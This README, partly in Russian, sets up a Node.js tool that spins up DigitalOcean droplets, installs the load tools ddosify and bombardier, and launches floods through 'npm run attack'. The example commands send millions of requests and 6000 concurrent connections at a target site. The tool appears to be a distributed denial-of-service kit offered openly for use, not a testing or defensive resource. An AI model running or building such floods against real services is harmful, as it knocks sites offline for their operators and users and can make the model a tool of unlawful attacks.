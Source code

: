 ### Installation

1. Install git

2. Install Node.js

3. Download code from GitHub

4.
```` 
  npm install
````

5. Create an empty file with name `.env` in the root folder.

6. Register at DigitalOcean, create a droblet manually:

Create-Droplets
* Ubuntu
* Basic
* 12$/month
* Authentication - SSH key

Как создать новый SSH key: 
  * (PS в появившимся окне справа инструкция. если кратко - то запустить консоль cmd и команду ssh-keygen)
  * из сформированного файла .pub скопировать содерждимое в поле SSH key content
  * указать имя, например f1

Для того чтобы SSH_ID впилить в солюшин - нужно в браузере нажать правой кнопке на подключенном SSH digitalocean и из лейбла взять часть которая состоит из цифр
(Например <label for="sshKey_33402836">d3</label>, SSH_ID = 33402836)

7. Visit https://cloud.digitalocean.com/account/api/tokens, generate token.

8. Create file with the name `.env` in the root folder of the project.

````
DO_API_KEY=<INSERT DIGITAL OCEAN API KEY>
DO_API_SSH_KEY_ID=<INSERT DIGITAL OCEAN SSH KEY ID>
````

You're done.

9. create `servers.js` (if you have any servers)

````
const SERVERS = [
  /*
  EXAMPLE
  {
    connection: {
      host: "1.1.1.1",
      username: "root",
      privateKey: `${process.env.HOME}/.ssh/id_rsa`,
    },
  },
  */
];

export default SERVERS;

````

### Usage


````
npm run create -- -c 2
````
Creates 2 new droplets in Digital Ocean, installs ddosify. See `constants.js`. Edit `constants.js` to change `CPU` & `REGION`.

````
npm run attack -- "ddosify -t 'https://google.com' -n $((10000 * 333)) -d 10000 -T 999 -m GET"
````

````
npm run attack -- "bombardier -c 6000 -d 1800s -m POST -H 'Content-Type: application/x-www-form-urlencoded' -l https://google.com"
````

````
npm run cleanup
````

Destroys all droplets. Do this before going to sleep. Save money.


# Known issues

- `npm run attack` will fail if the `npm run create` is in progress.

- Error:
````
FATAL: 1.1.1.1
Error: Timed out while waiting for handshake
````
Quick solution: destroy server with this IP on Digital Ocean.


# Known goodies

- It's okay to create 8 virtual servers on Digital Ocean.
- Will create a script to automatically destroy all servers. To save money.


## Part 2

1. create file `servers.js`

````javascript
"use strict";
const getDefaultKeyStoragePath = () => {
  return `${process.env.HOME}/.ssh/id_rsa`;
};

const SERVERS = [
  /*
  EXAMPLE
  {
    connection: {
      host: "1.1.1.1",
      username: "root",
      privateKey: `${process.env.HOME}/.ssh/id_rsa`,
    },
  },
  */
];

export default SERVERS;

````